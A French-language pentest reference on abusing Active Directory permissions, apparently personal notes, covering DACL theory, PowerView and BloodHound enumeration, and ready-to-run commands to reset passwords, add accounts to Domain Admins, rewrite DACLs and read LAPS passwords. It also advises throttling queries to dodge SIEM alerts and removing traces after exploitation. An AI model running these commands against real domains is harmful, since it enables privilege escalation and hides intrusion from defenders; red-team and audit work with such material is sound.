

Ce diagramme illustre le flux logique d'énumération et d'exploitation des permissions au sein d'un environnement Active Directory.



## Théorie des permissions AD (DACL/SACL/ACE)

La sécurité dans Active Directory repose sur le modèle de contrôle d'accès basé sur les objets. Chaque objet possède un **Security Descriptor** contenant :

- **DACL (Discretionary Access Control List)** : Liste les permissions accordées ou refusées aux utilisateurs/groupes.
- **SACL (System Access Control List)** : Définit les événements à auditer pour l'objet.
- **ACE (Access Control Entry)** : Chaque entrée dans une DACL spécifiant un **SID** (Security Identifier), un type d'accès (Allow/Deny) et un masque de droits.

| Type d'ACE | Description |
| :--- | :--- |
| **GenericAll** | Contrôle total (Full Control). |
| **GenericWrite** | Modification des propriétés (ex: SPN, description). |
| **WriteDACL** | Autorise la modification de la DACL de l'objet. |
| **WriteOwner** | Autorise le changement de propriétaire de l'objet. |
| **ExtendedRights** | Droits spécifiques (ex: ResetPassword, SendAs, DCSync). |

## Énumération des ACLs

L'énumération repose sur l'analyse des **DACL** pour identifier des chemins d'élévation de privilèges, souvent en lien avec les techniques de **Privilege Escalation in AD** et **Active Directory Enumeration**.

### Avec PowerView (Windows)

```powershell
# Importer PowerView
Import-Module .\PowerView.ps1

# Lister les permissions sur un utilisateur spécifique
Get-ObjectAcl -SamAccountName "TargetUser" -ResolveGUIDs | Format-Table -AutoSize

# Lister les permissions sur un groupe spécifique
Get-ObjectAcl -SamAccountName "TargetGroup" -ResolveGUIDs | Format-Table -AutoSize

# Lister les permissions sur un ordinateur spécifique
Get-ObjectAcl -SamAccountName "TargetComputer" -ResolveGUIDs | Format-Table -AutoSize

# Lister les ACEs où un utilisateur/groupe a des droits
Find-InterestingDomainAcl | Format-Table -AutoSize
```

### Avec BloodHound (Windows/Linux)

> [!warning] Attention au bruit généré par SharpHound sur les logs SIEM
> L'exécution de **SharpHound** génère un volume important de requêtes LDAP, ce qui peut déclencher des alertes de détection d'énumération massive.

1. **Collecte des données**

```powershell
# Exécuter la collecte complète
SharpHound.exe -c All

# Collecter uniquement les permissions ACL
SharpHound.exe -c ACL
```

2. **Requêtes Cypher dans BloodHound**

| Objectif | Requête Cypher |
| :--- | :--- |
| DCSync Rights | `MATCH p=shortestPath((u:User)-[r:GetChangesAll|GetChanges*1..]->(d:Domain)) RETURN p` |
| GenericAll on Users | `MATCH p=(u:User)-[:GenericAll]->(t:User) RETURN p` |
| High Value Targets | `MATCH p=shortestPath((n:User)-[r:MemberOf|AdminTo|AllExtendedRights|GenericAll|WriteDACL|WriteOwner|Owns|ExecuteDCOM|AllowedToDelegate|ReadLAPSPassword|Contains|GPLink*1..]->(t:Base)) WHERE t.highvalue=true RETURN p` |

## Analyse des chemins d'attaque (Attack Paths)

L'analyse des chemins d'attaque, détaillée dans **BloodHound Analysis**, permet de visualiser la relation entre les droits faibles et les cibles critiques. Un chemin d'attaque est une chaîne d'**ACEs** permettant de passer d'un compte compromis à un compte privilégié (ex: Domain Admin).

- **Shortest Path** : Identifier le chemin le plus court vers le domaine.
- **Tiered Access** : Vérifier si l'objet compromis permet d'atteindre des serveurs de niveau 0 (Domain Controllers).
- **Transitive Rights** : Analyser les appartenances aux groupes imbriqués qui héritent des permissions.

## Exploitation des ACLs

L'exploitation nécessite une compréhension des droits effectifs. Ces techniques sont complémentaires aux méthodes de **Kerberoasting**.

> [!danger] Risque de corruption d'objet lors de la modification de DACL
> Une mauvaise manipulation des **DACL** peut rendre un objet inaccessible ou corrompre la structure de sécurité du domaine.

> [!warning] L'exploitation de WriteDACL nécessite souvent une élévation préalable
> Assurez-vous de disposer des droits nécessaires avant de tenter une modification de permission.

### ForceChangePassword
Réinitialisation d'un mot de passe sans connaissance de l'ancien.

```powershell
Set-DomainUserPassword -Identity "TargetUser" -NewPassword (ConvertTo-SecureString "NewPassword!" -AsPlainText -Force)
```

### GenericWrite
Modification d'attributs ou ajout à des groupes.

```powershell
# Ajout SPN pour Kerberoasting
Set-DomainObject -Identity "TargetUser" -Set @{"servicePrincipalName"="fakeSPN/service"}

# Ajout à un groupe
Add-DomainGroupMember -Identity "Admins" -Members "UserToAdd"
```

### GenericAll
Contrôle total sur l'objet cible.

```powershell
# Changement de mot de passe
Set-DomainUserPassword -Identity "TargetUser" -NewPassword (ConvertTo-SecureString "NewPassword!" -AsPlainText -Force)

# Ajout à un groupe privilégié
Add-DomainGroupMember -Identity "Domain Admins" -Members "UserToAdd"
```

### WriteDACL
Modification de la **DACL** pour octroyer des droits **GenericAll**.

```powershell
Add-DomainObjectAcl -TargetIdentity "TargetUser" -PrincipalIdentity "AttackerUser" -Rights All
```

### WriteOwner
Changement de propriétaire d'un objet.

```powershell
# Changer le propriétaire
Set-DomainObjectOwner -Identity "TargetUser" -OwnerIdentity "AttackerUser"

# Octroi de permissions complètes
Add-DomainObjectAcl -TargetIdentity "TargetUser" -PrincipalIdentity "AttackerUser" -Rights All
```

### AllExtendedRights
Lecture d'attributs étendus, comme le mot de passe **LAPS**.

```powershell
Get-DomainObjectAcl -Identity "TargetComputer" -ResolveGUIDs | Where-Object {$_.ObjectAceType -match "ms-Mcs-AdmPwd"}
```

### AddSelf
Auto-ajout dans un groupe.

```powershell
Add-DomainGroupMember -Identity "TargetGroup" -Members "AttackerUser"
```

## Techniques d'obfuscation/Evasion

Pour éviter la détection lors de l'exploitation des ACLs :

- **Utilisation de noms de fichiers aléatoires** pour les exports SharpHound.
- **Limitation de la portée** : Cibler uniquement les objets nécessaires plutôt que `-c All`.
- **Utilisation de protocoles légitimes** : Privilégier les requêtes LDAP natives via PowerShell plutôt que des outils tiers si possible.
- **Temporisation** : Espacer les requêtes pour éviter les pics de logs sur le contrôleur de domaine.

## Nettoyage des traces post-exploitation

Il est crucial de supprimer les modifications effectuées pour éviter la détection et maintenir la stabilité du domaine.

```powershell
# Supprimer les permissions ajoutées
Remove-DomainObjectAcl -TargetIdentity "TargetUser" -PrincipalIdentity "AttackerUser" -Rights All

# Supprimer les membres ajoutés aux groupes
Remove-DomainGroupMember -Identity "Domain Admins" -Members "UserToAdd"

# Réinitialiser les attributs modifiés (ex: SPN)
Set-DomainObject -Identity "TargetUser" -Clear "servicePrincipalName"
```

## Détection & Mitigation

> [!tip] Vérifier les droits effectifs avant toute modification
> Utilisez **Get-DomainObjectAcl** pour valider l'état actuel des permissions avant toute action corrective ou offensive.

### Audit et nettoyage

```powershell
# Rechercher les ACLs suspectes
Get-ObjectAcl -ResolveGUIDs | Where-Object { $_.SecurityIdentifier -match "S-1-5-21" } | Format-Table -AutoSize

# Vérifier la configuration d'audit
auditpol /get /category:"DS Access"

# Révocation des droits indésirables
Remove-DomainObjectAcl -TargetIdentity "TargetUser" -PrincipalIdentity "AttackerUser" -Rights All
```

### Récapitulatif des outils

| Environnement | Outils |
| :--- | :--- |
| **Windows** | **PowerView**, **BloodHound**, **SharpHound** |
| **Linux** | **BloodHound** + **Neo4j** |
| **Défense** | **auditpol**, **Get-ADObject** |